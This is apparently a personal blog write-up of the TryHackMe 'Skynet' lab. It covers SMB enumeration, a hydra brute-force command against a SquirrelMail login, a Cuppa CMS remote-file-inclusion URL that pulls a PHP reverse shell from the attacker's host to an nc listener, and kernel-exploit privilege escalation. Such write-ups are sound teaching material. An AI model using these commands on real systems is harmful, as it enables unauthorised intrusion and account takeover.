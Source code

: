 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Skynet"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Try Hack Me]
tags: [meterpreter, hydra, nmap]
---
```

![title](/assets/images/skynet/title.png)
I started this machine like any other using a simple nmap scan to get an understanding of what services are running. And just as always, answers will be in the source code in comments.

![nmap](/assets/images/skynet/nmap.png)

Within the nmap scan we can see that there is a samba server running on port 139
and 445. This is a very good starting point to see if we have any access to the
samba shares. Running another nmap scan, but this time using the smb enumeration scripts using the `-sC` command whithin nmap will present us iwth this information:

![smb](/assets/images/skynet/nmapsmb.png)

This scan showed us that we have read and write acessability to the share
anonymous. Now, we can either mount the share to our system or we can read it on
the server. I chose to mount the drive with the command `sudo mount
//10.10.84.83/anonymous /mnt/skynet`.   

Listing the directory that we just mounted we find that therer are log files and
a notififcaiton from Miles Dyson telling us that there was a malfunction that
changed skynet employee passwords. Exploring the log files we will see the password changes for the employees. 
![pws](/assets/images/skynet/pws.png)

During this period of time I had a gobuster scan running. It found a few directories but the one thats important to note is `/squirrelmail`. Why? Because this mail server was what was being affected during the password resets.

Going back to the smb shares there was a share named milesdyson. Meaning more than likely there is a milesdyson user on the squirrel mail server. Going to the squirrelmail directory within the website we can see a login forum presented to us.   

Brute force time :smile:

Using hyrdra the paylod will look a little like this:  
`hydra -l milesdyson -P milessharepw.txt 10.10.84.83 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."`

Finding the password to the account is: 
<!-- cyborg007haloterminator! -->
    
After logging into milesdyson's squirrelmail account I figured I'd mess around
with some public CVE's and nothing worked that I had found. Now, looking myles's
emails there is one that stands out. `Samba Password Reset`, within that email we will find this:
![smbpw](/assets/images/skynet/smbpw.png)

YAY! We now know his smb password. Back to the smb shares we go. Upon mounting
miles's share we find a important.txt file within his notes folder. In this
folder contains his todo list of what he want's to accomplish more. 

![important](/assets/images/skynet/import.png)
 
Knowing he wants to spend more time with his wife gives us the upperhand :smiling_imp:

Definitely not the secret dierctory `/45kra24zxs28v3yd` :eyes:

So, now that we have a new directory we can go visit it, entering the site's new
unfound page there isn't a whole lot. But, if you remember Miles said something
about CMS /secret_dir. Now this we can do something about. Running another
gobuster on this subdomain we find out that there is a Cuppa CMS server running
under the `/administrator` directory. So, in full it is
`skynet/45kra24zxs28v3yd/administrator/`. 

Funny enough cuppa has a `remote file inclusion` vulnerability which can be found
[here](https://www.exploit-db.com/exploits/25971). Little hint this is an answer
to one of the questions. If you don't care to look
through it I'll give you the short version. Basically the program allows php
code injection at the url `/alerts/alertConfigField.php`. This is all thanks to
this line within that file on line 22:

`<?php include($_REQUEST["urlConfig"]); ?>`

So, we know there is a vulnerability. How can we take advantage of this? Well,
since we have RCE a simple php reverse shell (because its executing php) and
hosting the file on our computer for the server to obtain will be enough to give
us a user on the machine. 

so, 
```
python -m http.server 8887 - host file
nc -lvnp <reverse.php port> - listen for reverse shell
skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<ip>:8888/reverse.php - url for execution
```

Running these 3 commands gets us a user shell into the machine. 

Time to escalate!

Moving linpeas onto the machine and running it gives a few CVE's that we can exploit. Personally I chose [this](https://www.exploit-db.com/exploits/45010) one. Moving this onto the box, running gcc on the .c file and executing it is enough to give us root.


Just like that the box is ours :flushed:

Thank you for reading!  
-Ryushe 
